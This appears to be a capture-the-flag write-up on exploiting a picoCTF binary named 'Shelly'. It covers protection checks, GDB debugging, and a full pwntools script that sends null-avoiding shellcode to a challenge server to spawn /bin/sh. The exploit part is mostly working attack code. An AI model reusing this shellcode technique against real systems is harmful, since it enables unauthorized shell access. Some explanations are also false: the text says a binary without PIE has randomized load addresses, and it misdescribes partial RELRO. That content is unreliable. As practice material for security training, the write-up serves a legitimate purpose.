










## Preliminary Analysis on the provided 'Shelly' binary

#### Running Checksec and File on the given binary

- The binary has all protections disabled
  - **NX Disabled**
    - Stands for No-Execute i.e. the data section of the binary is marked as non-executeable when this bit is on but when off we can send shellcode to be stored and executed from variables that are populated via stdin functions
  - **Partial RELRO aka Relocation ReadOnly**
    - Understanding RELRO is a little confusing as it deals with 2 main concepts
      - Global Offset Table
        - This is used to dynamically resolve the functions located in shared libs
      - Procedure Linkage Table
        - Contains the x86 instructions that point directly to the GOT
      - When partial, the GOT is read-only but the PLT can be modified which is the case in the provided binary
  - **No PIE (Position-Independent Code)**
    - This means that the locations where the binary and its dependencies are loaded into memory are always randomized. When disabled and used along with a kernel that has no ASLR (Address Space Layout Randomization). We can safely use the stack and memory function offsets we calculate during dynamic analysis
  - **No stack canaries**
    - Canaries are used to monitor the stack for buffer overflows

## Observing the main function

- Performing static analysis via your reverser of choice i.e ghidra/IDA/GDB we can obeserve the main func and analyze what it is doing
  - 
- The main func takes in the code string to execute and reads it charecter by charecter starting from line 21 to execute later on in line 30

## Using GDB and GEF

- Data fed into stdin was "AAAAAAAAAAAAAAAA"
- Disassembly of main shows the execute function which is where we need to stop via a breakpoint

  - 
- Another interesting breakpoint was found and set in the execute function where it calls eax

  - 
- After running the program and stopping at our first breakpoint. Lets observe eax

  - 
- Looking at the stack we can observe that our input is being stored in 0xffffcbe3 and so we can check that specifc memory address to verify

  - 
- Moving on to the next breakpoint we can observe that eax has been changed

  - 
- Lets check the entire eax register

  - 
- Note that 0x90 corresponds to a NO-OP instruction in our case

  - 
- Now we know to ensure our ''code'' has to be 2 bytes wide at max to execute and as such we can craft and send a payload to spawn a new shell for us 

## Crafting a pwntools script with payload

- To spawn a shell we need to send execve("/bin/sh", NULL, NULL), doing this in shellcode requires that we prepare some shellcode with the given restriction of 2 bytes of code for every 2 NO-OP instructions

  - Put the command string onto the stack and point esp to it
  - EBX should point to the command string as well, Set ECX & EDX to 0
  - To set registers to 0 we can XOR them with each other, this avoids creating more null bytes in our shellcode
- Exploit shellcode

  - ; Push //bin/sh on stack (one more slash to avoid null byte)
    - xor eax, eax
    - push eax
    - push `n/sh`
    - push `//bi`
  - ; Set parameters
    - mov ebx, esp
    - xor ecx, ecx
    - xor edx, edx
  - ; call execve
    - mov al, 11
    - int 0x80
  - ; exit
    - mov al, 1
    - xor ebx, ebx
    - int 0x80
- Now to push our command string into the stack we can bulid the string in register and push it onto the stack

Final pwncode

from pwn import *

shellcode = """
/* Set registers to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* Build the stack with //bin/sh */
mov bl, 16 /* This register will hold the value 16 for shifting bytes */
/* First null bytes */
push ecx
nop
/* Then n/sh (ie bytes 110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* Then //bi (ie bytes 47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit */
mov al,1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

with open("out", "wb") as f:
    f.write(asm(shellcode))

sh = remote("mercury.picoctf.net", 37853)
sh.recvuntil(b"run:")
sh.sendline(asm(shellcode))
sh.interactive()

# Final Result

